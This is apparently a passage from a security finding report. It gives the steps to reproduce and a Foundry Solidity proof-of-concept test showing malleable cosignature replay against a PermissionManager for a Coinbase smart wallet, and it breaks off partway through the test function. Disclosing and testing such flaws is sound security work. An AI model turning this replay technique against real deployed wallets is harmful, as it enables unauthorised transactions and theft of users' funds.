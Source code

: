 #### Steps to Reproduce

To demonstrate the issue, the following Proof of Concept (PoC) code was developed. This code tests the validation of malleable and compact signatures on the PermissionManager.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import {Test, console2} from "forge-std/Test.sol";
import {PermissionCallable} from "src/mixins/PermissionCallable.sol";
import {MockCoinbaseSmartWallet} from "./mocks/MockCoinbaseSmartWallet.sol";
import {ERC4337, MockERC4337} from "solady/../test/utils/mocks/MockERC4337.sol";
import {PermissionManager} from "../src/PermissionManager.sol";
import {MockPermissionContract} from "./mocks/MockPermissionContract.sol";
import {UserOperation, UserOperationLib} from "src/utils/UserOperationLib.sol";
import {CoinbaseSmartWallet} from "smart-wallet/CoinbaseSmartWallet.sol";
import {MockEntryPoint} from "smart-wallet/../test/mocks/MockEntryPoint.sol";
import {ECDSA} from "solady/utils/ECDSA.sol";
import {EntrypointRuntimeBytecode} from "./EntrypointRuntimeBytecode.sol";

contract Findings is Test, EntrypointRuntimeBytecode {
    PermissionManager permissionManager;
    uint256 ownerPk = uint256(keccak256("owner"));
    address owner = vm.addr(ownerPk);
    uint256 cosignerPk = uint256(keccak256("cosigner"));
    address cosigner = vm.addr(cosignerPk);
    uint256 permmissionSignerPk = uint256(keccak256("permissionSigner"));
    address permissionSigner = vm.addr(permmissionSignerPk);
    address entrypoint = 0x5FF137D4b0FDCD49DcA30c7CF57E578a026d2789;
    MockCoinbaseSmartWallet account;
    MockPermissionContract successPermissionContract;
    MockPermissionContract failPermissionContract;

    function test_malleableCosignatureReplay() public {
        _etchEntrypoint();
        _initializePermissionManager();

        PermissionManager.Permission memory permission = _createPermission();

        bytes32 permissionHash = permissionManager.hashPermission(permission);
        bytes32 replaySafeHash = account.replaySafeHash(permissionHash);

        // user approves a permission
        bytes memory ownerSig = _getSignature(replaySafeHash, ownerPk);
        bytes memory approval = account.wrapSignature(0, ownerSig);
        permission.approval = approval;

        UserOperation memory userOp = _createUserOp(permission);
        PermissionManager.PermissionedUserOperation memory permissionedUserOp;
        permissionedUserOp.userOp = userOp;
        permissionedUserOp.permission = permission;

        // `entryPoint.getUserOpHash(userOp)`
        (, bytes memory ret) = entrypoint.call(bytes.concat(hex'a6193531', abi.encode(userOp)));
        bytes32 userOpHash = bytes32(ret);

        bytes memory uoSig = _getSignature(userOpHash, permmissionSignerPk);
        permissionedUserOp.userOpSignature = uoSig;

        (uint8 cosigV, bytes32 cosigR, bytes32 cosigS) = vm.sign(cosignerPk, userOpHash);
        bytes memory uoCosig = abi.encodePacked(cosigR, cosigS, cosigV);

        permissionedUserOp.userOpCosignature = uoCosig;
```